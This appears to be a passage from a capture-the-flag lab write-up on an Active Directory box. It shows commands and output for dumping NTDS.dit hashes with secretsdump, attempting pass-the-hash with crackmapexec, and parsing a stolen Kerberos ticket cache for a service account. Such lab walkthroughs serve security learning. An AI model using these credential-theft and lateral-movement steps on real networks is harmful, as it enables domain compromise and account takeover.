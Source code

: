 Nice ! 

## Decrypt a .rdg password using ntdissector and dpapil

Now go in /root/inc5543_domaincontroller_backup/

We can see a note.txt

```console
[root@srv2 inc5543_domaincontroller_backup]# cat note.txt
Incident: INC5543

I've included a backup of the domain controller before resetting all passwords after the last breach
```
There is also 2 files "SECURITY" & "SYSTEM" in a directory named "registry" and another directory name "Active Directory" which contains 2 files "ntds.dit" & "ntds.jfm"

So download every files and my first reflex was to secretsdump :

```bash
secretsdump -ntds ntds.dit -system SYSTEM LOCAL

Administrator:500:aad3b435b51404eeaad3b435b51404ee:c05b9e7dfd1fbbd1a3605b76c2f3caaa:::
```
I tried the hash :

```bash
cme ldap 10.10.245.69 -u 'Administrator' -H 'c05b9e7dfd1fbbd1a3605b76c2f3caaa'

SMB         10.10.245.69    445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
LDAP        10.10.245.69    389    DC1              [-] KLENDATHU.VL\Administrator:c05b9e7dfd1fbbd1a3605b76c2f3caaa
```
As said in note.txt, all passwords have been reset so the hash is that of the old password, this is why

But in /tmp i found this : 

```console
[root@srv2 tmp]# ls /tmp
krb5cc_990001135
```
I downloaded it and do a describeTicket on it:
```bash
describeTicket.py 'krb5cc_990001135'
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Number of credentials in cache: 1
[*] Parsing credential[0]:
[*] Ticket Session Key            : 17ce46dd70cc67524b3da4bc63f07235fde5bf51539f74edadd3addb848e0d60
[*] User Name                     : svc_backup
[*] User Realm                    : KLENDATHU.VL
[*] Service Name                  : krbtgt/KLENDATHU.VL
[*] Service Realm                 : KLENDATHU.VL
[*] Start Time                    : 30/07/2024 16:06:29 PM
[*] End Time                      : 31/07/2024 02:06:29 AM
[*] RenewTill                     : 06/08/2024 16:06:29 PM
[*] Flags                         : (0x40e10000) forwardable, renewable, initial, pre_authent, enc_pa_rep
[*] KeyType                       : aes256_cts_hmac_sha1_96
[*] Base64(key)                   : F85G3XDMZ1JLPaS8Y/ByNf3lv1FTn3TtrdOt24SODWA=
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : krbtgt/KLENDATHU.VL
[*]   Service Realm               : KLENDATHU.VL
[*]   Encryption type             : aes256_cts_hmac_sha1_96 (etype 18)
```